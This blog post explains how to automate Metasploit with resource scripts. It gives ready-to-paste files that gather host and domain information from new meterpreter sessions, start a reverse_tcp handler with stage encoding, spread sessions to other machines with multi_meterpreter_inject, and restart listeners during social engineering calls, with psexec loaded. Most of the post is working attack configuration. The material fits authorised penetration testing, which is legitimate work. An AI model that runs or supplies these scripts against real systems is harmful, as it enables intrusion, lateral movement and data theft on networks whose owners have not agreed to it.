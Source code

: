 ```yaml
---
layout: post
title: Hit the Ground Running- Automating Metasploit
summary: Use resource scripts to run common Metasploit tasks quickly
---
```

     
There are a number of commands that tend to get run on every session on a target I get in Metasploit. Using resource files, these commands can be automated to dump as much information as possible, as quickly as possible. This can be combined with an MSFConsole autostart script to automate the starting of handlers and pre-fill options for post modules that don't need to be run on every session.

First we make a new file for the autorunscript to be run on each new session:
`nano /infogather`
     
and paste the following in the file:

```plaintext
run migrate -f
screenshot -v false
ps
ipconfig
sysinfo
run post/windows/gather/enum_shares
run post/windows/gather/enum_domain_group_users  group="Domain Admins"
run post/windows/gather/checkvm
screenshot -v false
background
```
     
Each command will be run sequentially and then background the session. Any command that can be run through a meterpreter shell can be used, with options added (for example, screenshot using the -v false option). Running the above commands will save screenshots to the default directory, `/root/*RANDOMNAME*.jpeg` and will save the output from the other gather post modules to the `/root/.msf4/loot` directory.

It should be noted that running a large number of commands could cause sessions to drop. If you find that being the case, try removing some of the commands you don’t need output from on every session. Alternatively, this could be run up as a resource file by calling it with:
     
`resource /infogather`

Now we're all set to catch some shells. Let's make that easier by having a handler autostart, get logging all set up, and get the `post/windows/manage/multi_meterpreter_inject module` ready to spread our session to some other machines for posterity.
     
     
Let's create the `/root/.msf4/msfconsole.rc` file that MSFConsole will automatically run with 

`nano /root/.msf4/msfconsole.rc`
     
and paste the following in the file:

```plaintext
spool /mylog.log
set consolelogging true
set loglevel 5
set sessionlogging true
set timestampoutput true
set prompt %T S:%S J:%J
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost X.X.X.X
set lport YYY
set exitonsession false
set enablestageencoding true
set autorunscript multi_console_command.rb -rc /autosploit
exploit -j -z
use post/windows/manage/multi_meterpreter_inject
set iplist X.X.X.X;X.X.X.X
set lport YYY
jobs
```
     
Similar to the autosploit resource file, any command normally entered into the msf prompt can be used-- enabling you to set up any post module you want. Don't forget to replace the Xs above with the proper IP data. If you're using the `multi_meterpreter_inject`, you can add multiple addresses in a semicolon-separated list to spread the meterpreter session to numerous boxes for penetration.

Finally, we’ll create a resource file to kill and restart a listener-- good for when you’re on a social engineering call and the just isn’t quite coming in. 

`nano /bounce`
     
then paste the following into the file:

```plaintext
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost X.X.X.X
set lport YYY
set exitonsession false
set enablestageencoding true
set autorunscript migrate -f
jobs -K
exploit -j -z
use exploit/windows/smb/psexec
```
     
Now we can call the resource file with the following command from the msf prompt:

`resource /bounce`
  